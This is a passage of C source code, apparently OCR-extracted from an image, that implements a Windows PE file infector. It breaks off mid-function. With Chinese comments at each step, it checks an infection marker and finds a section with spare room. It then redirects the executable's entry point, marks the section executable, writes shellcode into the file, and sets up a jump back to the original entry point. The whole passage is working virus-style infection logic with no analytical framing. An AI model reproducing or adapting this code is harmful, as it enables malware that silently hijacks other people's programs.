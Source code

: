 fseek(pFile,pInfect,SEEK\_SET);

fread(&Sign,sizeof(WORD),1,pFile);

if(Sign == 0x1122) //已经感染过,结束程序.

{

//MessageBoxA(NULL,\"已感染过\",\"msg\",MB\_OK);

return 0;

}

if((int)(SecInject.SizeOfRawData-SecInject.Misc.VirtualSize)\>nShellLen)

break;

}

if(i\>=sectionNum)

{

printf(\"找不到适合插入的节\");

return 0;

}

DWORD lpCodeRVA = SecInject.VirtualAddress + SecInject.Misc.VirtualSize;

DWORD lpCodeOffs = SecInject.PointerToRawData + SecInject.Misc.VirtualSize; //添加代码的文件偏移

/\*修改入口点地址并写回NT HEADER中\*/

ntHeader.OptionalHeader.AddressOfEntryPoint = lpCodeRVA;

fseek(pFile,pNT,SEEK\_SET);

fwrite(&ntHeader,sizeof(IMAGE\_NT\_HEADERS),1,pFile);

SecInject.Characteristics = SecInject.Characteristics\|IMAGE\_SCN\_MEM\_READ\|IMAGE\_SCN\_MEM\_EXECUTE; //节属性改成可读、可执行

SecInject.Misc.VirtualSize += nShellLen;

fseek(pFile,pNT+248+i\*40,SEEK\_SET); //文件指针移动到SecInject的首址

fwrite(&SecInject,sizeof(IMAGE\_SECTION\_HEADER),1,pFile); //将修改后的节信息写回文件中

/\*写入SHELLCODE\*/

fseek(pFile,lpCodeOffs,SEEK\_SET); //定位到添加代码的文件偏移

for(i=0;i\<nShellLen;i++)

fputc(pShell\[i\],pFile);

//SHELLCODE之后是跳转到原OEP的指令

BYTE jmp = 0xE9;

OldEntryPoint = OldEntryPoint-(lpCodeRVA+nShellLen)-5;
